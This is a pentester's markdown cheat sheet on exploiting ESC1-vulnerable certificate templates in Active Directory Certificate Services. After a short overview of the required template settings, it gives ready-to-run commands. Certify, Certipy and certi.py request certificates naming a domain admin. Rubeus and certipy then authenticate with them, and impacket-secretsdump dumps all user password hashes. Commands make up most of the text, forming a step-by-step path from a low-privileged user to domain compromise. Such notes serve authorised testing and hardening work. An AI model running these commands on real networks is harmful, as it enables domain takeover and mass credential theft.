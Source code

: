 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

A certificate template with the ESC1 vulnerability allows low-privileged users to enroll and request certificates on behalf of any domain object they specify. This means that any user with enrollment rights can request a certificate for a high-privilege account, such as a domain administrator.

To exploit ESC1, the certificate template must meet specific criteria:

- **Enrollment Rights**: The user’s group must have enrollment rights, allowing them to request a new certificate from the Certificate Authority (CA).
- **Extended Key Usage: Client Authentication**: The template must support client authentication, enabling the generated certificate to authenticate to domain computers.
- **Enrollee Supplies Subject**: This option must be set to True, allowing the user to supply the SAN (Subject Alternative Name).
- **No Manager Approval Required**: The certificate request should be auto-approved without needing manager approval.

# Abusing ESC1 Certificates

## PowerShell:
- `Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorpone,DC=com'`

## Locksmith: 
- Source: https://github.com/TrimarcJake/Locksmith
1.  `Import-Module ./Locksmith.psd1`
2.  `Invoke-Locksmith -Scan All`
3. `Invoke-Locksmith -Scans ESC1`
4. `Invoke-Locksmith -Scans ESC1,ESC2,ESC8`

## Certify:
- `Certify.exe request /ca:ca.megacorponeone.com\domain-DC-CA /template:VulnTemplate /altname:'domain admin'`

## Certipy:

Specify a user account in the SAN:
User Account: 
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin'
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin@megacorpone.com -dns dc.megacorpone.com'
Computer Account: 
- `certipy-ad req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.megacorpone.com'
## Certi
- `python certi.py 'megacorpone.com/afsimmons@dc01.megacorpone.com' megacorpone-DC01-CA -k -n --alt-name spawn --template UserSAN`
`
# Converting the vulnerable ESC1 template:

## OpenSSL

`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`

## Rubeus: 

`Rubeus.exe asktgt /user:xadmin /certificate:C:\Temp\cert.pfx`

# Abusing our vulnerable template: 

## certipy
Authenticating with certipy:
- ` certipy-ad auth -pfx vulnerable.pfx -dc-ip 172.21.0.0`
Using secretdumps to dump all user hashes with the extracted hash from certipy:
- impacket-secretsdump 'megacorpone.com/DC1@172.21.0.0' -hashes 'aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3'



Reference: 
 - https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/
 - https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/